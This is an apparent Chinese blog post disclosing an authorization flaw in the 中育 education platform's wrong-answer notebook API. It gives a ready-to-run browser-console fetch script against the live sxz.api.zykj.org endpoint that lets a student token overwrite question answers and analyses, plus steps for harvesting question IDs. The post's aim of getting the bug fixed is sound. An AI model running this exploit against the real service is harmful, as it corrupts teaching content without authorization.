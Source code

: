 ```yaml
---
layout:     post
title:      "错题本权限BUG演示上报"
subtitle:   " \"越权修改例题\""
date:       2023-01-24
author:     "LoliconMe"
link-header: https://s2.loli.net/2023/01/24/Gi6kxp4ZRclAyzJ.jpg
catalog: true
tags:
    - 中育科教
    - 错题本
    - BUG
---
```


# 前置知识

- [HTTP请求](https://baike.baidu.com/item/HTTP%E8%AF%B7%E6%B1%82/10882159)
- [JWT身份验证]( {{site.url}}/2022/06/06/浅析中育的身份验证/)
- 基础的HTML


# 发现过程

我们知道，由于中育早期十分疏忽，老师、学生、管理员权限分割不明，存在大量越权操作。<br>
例如：优课畅学学生创建课程、云笔记学生上传各类文件、web端学生随意访问各种功能

显然中育之后努力了一番修复了绝大多数越权问题，现在访问一些功能便会出现：

```json
{
    "result": null,
    "targetUrl": null,
    "success": false,
    "error": {
        "code": 0,
        "message": "Required permissions are not granted. 
        At least one of these permissions must be granted: Administrator",
        "details": null,
        "validationErrors": null
    },
    "unAuthorizedRequest": true,
    "__abp": true
}
```

本文揭露一个历史遗留————错题修改越权

# 演示

### CODE
Chrome F12 控制台(CONSOLE)中执行
```js
post={
    "testPaperId": 100 /*Any available id is ok*/ ,
    "content": "",
    "questionsInputs": [{
        "questionId": 6666 /*见下解释*/ ,
        "answers": ``,
        "referenceAnswer": ``/*答案*/,
        "analysis": ``/*解析*/,
        "difficult": 0,
        "knowledge": []
    }],
    "relatedQstGroupInputs": []
}

fetch("http://sxz.api.zykj.org/api/services/app/Test/SetTestQstPropertiesAsync",{
    method: "post",
    headers: {"Authorization": "Bearer "+token/*自行获取*/, "Content-Type": "application/json"},
    body: JSON.stringify(post)
})
    .then(response=>response.json())
    .then(json=>console.log(json))
```

### 返回示例
```json
{
    "result": null,
    "targetUrl": null,
    "success": true,
    "error": null,
    "unAuthorizedRequest": false,
    "__abp": true
}
```
![image](https://s2.loli.net/2023/01/24/G3w4qr6HRn9Lm5c.png)

### 一些解释
QuestionId的获取：
1. PAD错题本进入目标错题
2. 进入错题笔记界面
3. 创建一个无网络WIFI(i.g.不开数据的手机热点)，PAD连接
4. 右上角打开错题题干截图
5. 出现网络错误提示并显示URL(i.g.http://sxz.api.zykj.org/Question/View/<font color=red>23333</font>?showAnalysis=true)
6. 记下红色部分即可

答案&解析：由HTML构成，详细运作请自见<http://sxz.api.zykj.org/Question/View/>看JS

# 总结&声明
一个很好修的越权BUG，望修复。
本文仅做学习用途，不对因为滥用该BUG导致的任何问题负责。